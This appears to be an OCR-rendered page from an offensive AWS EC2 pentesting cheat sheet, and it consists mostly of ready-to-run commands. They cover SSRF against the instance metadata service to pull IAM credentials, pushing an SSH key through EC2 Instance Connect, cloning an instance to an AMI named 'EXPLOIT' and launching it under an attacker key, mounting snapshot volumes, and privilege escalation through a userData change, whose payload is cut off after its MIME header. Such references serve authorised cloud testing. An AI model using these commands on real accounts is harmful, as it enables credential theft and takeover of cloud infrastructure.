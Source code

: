 ```text
sudo mount /dev/xvdb1 /mnt
cat /mnt/home/ubuntu/setupNginx.sh

# EC2 security group
aws ec2 describe-security-groups
aws ec2 describe-security-groups --filters Name=ip-permission.cidr,Values='0.0.0.0/0' --query "SecurityGroups[*].[GroupName]" --output text
```

### **EC2 example attacks**

```text
# SSRF to http://169.254.169.254 (Metadata server)
curl http://<ec2-ip-address>/\?url\=http://169.254.169.254/latest/meta-data/iam/security-credentials/
http://169.254.169.254/latest/meta-data
http://169.254.169.254/latest/meta-data/ami-id
http://169.254.169.254/latest/meta-data/public-hostname
http://169.254.169.254/latest/meta-data/public-keys/
http://169.254.169.254/latest/meta-data/network/interfaces/
http://169.254.169.254/latest/meta-data/local-ipv4
http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key/
http://169.254.169.254/latest/user-data

# Find IAM Security Credentials
http://169.254.169.254/latest/meta-data/
http://169.254.169.254/latest/meta-data/iam/
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Using EC2 instance metadata tool
ec2-metadata -h
# With EC2 Instance Meta Data Service version 2 (IMDSv2):
Append X-aws-ec2-metadata-token Header generated with a PUT request to http://169.254.169.254/latest/api/token

# Check directly for metadata instance
curl -s http://<ec2-ip-address>/latest/meta-data/ -H 'Host:169.254.169.254'

# EC2 instance connect
aws ec2 describe-instances | jq ".[][].Instances | .[] | {InstanceId, KeyName, State}"
aws ec2-instance-connect send-ssh-public-key --region us-east-1 --instance-id INSTANCE_WE_GOT_PREVIOUSLY --availability-zone zone --instance-os-user ubuntu --ssh-public-key file://shortkey.pub

# EC2 AMI - Read instance, create AMI for instance and run
aws ec2 describe-images --region specific-region
aws ec2 create-image --instance-id ID --name "EXPLOIT" --description "Export AMI" --region specific-region
aws ec2 import-key-pair --key-name "EXPLOIT" --public-key-material fileb:///publickeyfile
aws ec2 describe-images --filters "Name=name,Values=EXPLOIT"
aws ec2 run-instances --image-id {} --security-group-ids "" --subnet-id {} --count 1 --instance-type t2.micro --key-name EXPLOIT

# Create volume from snapshot & attach to instance id && mount in local
aws ec2 create-volume –snapshot-id snapshot_id --availability-zone zone
aws ec2 attach-volume --volume-id above-volume-id --instance-id instance-id --device /dev/sdf

# Privesc with modify-instance-attribute
aws ec2 modify-instance-attribute --instance-id=xxx --attribute userData --value file://file.b64.txt
file.b64.txt contains (and after base64 file.txt > file.b64.txt):
```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0
